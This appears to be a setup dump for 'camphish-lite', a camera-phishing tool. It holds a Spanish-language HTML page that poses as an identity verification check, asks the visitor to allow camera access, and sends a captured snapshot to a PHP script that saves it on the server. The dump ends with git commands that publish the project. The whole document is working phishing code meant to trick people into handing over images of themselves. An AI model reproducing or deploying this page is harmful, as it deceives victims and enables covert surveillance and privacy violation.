 # campish-litemkdir camphish-lite
cd camphish-lite
<!DOCTYPE html>
<html lang="es">
<head>
  <meta charset="UTF-8">
  <title>Verificación de identidad</title>
  <style>
    body { font-family: Arial, sans-serif; text-align: center; margin-top: 50px; }
    video, canvas { width: 300px; border-radius: 10px; margin: 10px 0; }
    button { padding: 10px 20px; font-size: 16px; cursor: pointer; }
  </style>
</head>
<body>

  <h2>Verificación de cámara</h2>
  <p>Por favor, permite el acceso a tu cámara para continuar.</p>
  <video id="video" autoplay></video><br>
  <button onclick="capture()">Capturar</button>

  <canvas id="canvas" style="display: none;"></canvas>

  <script>
    const video = document.getElementById('video');
    const canvas = document.getElementById('canvas');

    navigator.mediaDevices.getUserMedia({ video: true })
      .then(stream => {
        video.srcObject = stream;
      })
      .catch(err => {
        alert("Error al acceder a la cámara: " + err);
      });

    function capture() {
      const context = canvas.getContext('2d');
      canvas.width = video.videoWidth;
      canvas.height = video.videoHeight;
      context.drawImage(video, 0, 0, canvas.width, canvas.height);

      const imageData = canvas.toDataURL('image/jpeg');

      fetch('upload.php', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ image: imageData })
      })
      .then(res => alert("Imagen enviada"))
      .catch(err => alert("Error al enviar: " + err));
    }
  </script>

</body>
</html>
<?php
$data = json_decode(file_get_contents('php://input'), true);
if (!isset($data['image'])) {
    http_response_code(400);
    exit("No se recibió imagen");
}

$image = $data['image'];
$image = str_replace('data:image/jpeg;base64,', '', $image);
$image = base64_decode($image);

$filename = 'captured/image.jpg';
file_put_contents($filename, $image);
echo "OK";
?>
git add index.html upload.php start_camphish.sh
git commit -m "Primer commit: Archivos iniciales"
git remote add origin https://github.com/TU_USUARIO/camphish-lite.git
git push -u origin master
